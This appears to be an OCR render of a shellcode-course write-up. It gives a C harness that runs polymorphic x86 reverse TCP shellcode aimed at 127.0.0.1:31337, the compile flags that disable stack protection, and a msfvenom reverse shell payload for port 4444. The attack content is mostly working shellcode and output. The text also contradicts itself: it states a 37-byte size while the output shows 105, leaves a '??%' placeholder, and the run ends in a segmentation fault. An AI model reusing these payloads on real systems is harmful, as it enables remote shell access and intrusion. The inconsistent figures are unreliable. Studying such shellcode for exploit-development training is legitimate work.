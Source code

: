 ```c 
/**
* Filename: revtcpshell_poly_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Reverse shell connecting back to IP address 127.0.0.1 on TCP port 31337   
* Compilation: gcc -fno-stack-protector -z execstack -m32 revtcpshell_poly_shellcode.c -o revtcpshell_poly_final
* Usage: ./revtcpshell_poly_final
* Shellcode size: 105 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x29\xc0\x29\xdb\x29\xc9\x29\xd2\x04\x66\xfe\xc3\x51\xc6\x44\x24\xf8\x02\xc6\x04\x24"
"\x06\xc6\x44\x24\xfc\x01\x83\xec\x08\x54\x59\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\xc7\x04"
"\x24\x7f\x01\x01\x83\xec\x08\x66\x68\x7a\x69\x66\x53\x80\xc3\x01\x89\xe1\x6a\x10\x51"
"\x56\x54\x59\xcd\x80\x29\xc9\x59\xb0\x3f\xfe\xc9\xcd\x80\x79\xf8\x29\xc0\x52\x68\x6e"
"\x2f\x73\x68\x68\x2f\x2f\x62\x69\x54\x5b\x52\x53\x54\x59\x52\x54\x5a\x04\x0b\xcd\x80";

int main()
{
        printf("Shellcode length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 37 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -z execstack -m32 revtcpshell_poly_shellcode.c -o revtcpshell_poly_final
osboxes@osboxes:~/Downloads/SLAE$ ./revtcpshell_poly_final 
Shellcode length:  105
Segmentation fault (core dumped)

```

The polymorphic version of the shellcode is ??% larger in size compared to the original reference from Shell-Storm.







:-) We almost done !

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```
